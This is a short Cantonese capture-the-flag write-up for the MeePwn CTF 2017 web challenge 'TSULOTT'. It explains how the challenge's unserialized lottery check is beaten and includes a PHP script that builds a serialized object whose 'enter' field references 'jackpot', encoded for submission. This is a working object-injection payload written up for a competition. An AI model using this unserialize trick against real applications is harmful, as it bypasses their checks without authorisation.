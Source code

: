 # MeePwn CTF 2017: TSULOTT 

### (web, 100 points, 161 team solved)

說明
>Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!!

>Remote: 128.199.190.23:8001

## 題解
呢題好 hea. 所以咁鬼多人解到

入面俾你打個 serialized object. 之後 $obj->jackpot = 一堆隨機數字.

之後 if($obj->enter === $obj->jackpot){echo $flag}

你唔會走去估果D數係乜掛. 所以求其整到 $obj->enter = &$obj->jackpot 之後就解到.


```
<?php
class Object  
{  
  var $jackpot; 
  var $enter;  
} 

$obj = new Object;
$obj->enter = &$obj->jackpot;

echo serialize($obj);
echo "<hr />";
echo base64_encode(serialize($obj));
if($obj->enter === $obj->jackpot){echo "<hr>OK";}else{echo "<hr>PK";}
?>
```
唔好問我點解最後係 echo PK.

## 參考資料
http://php.net/manual/en/language.oop5.references.php
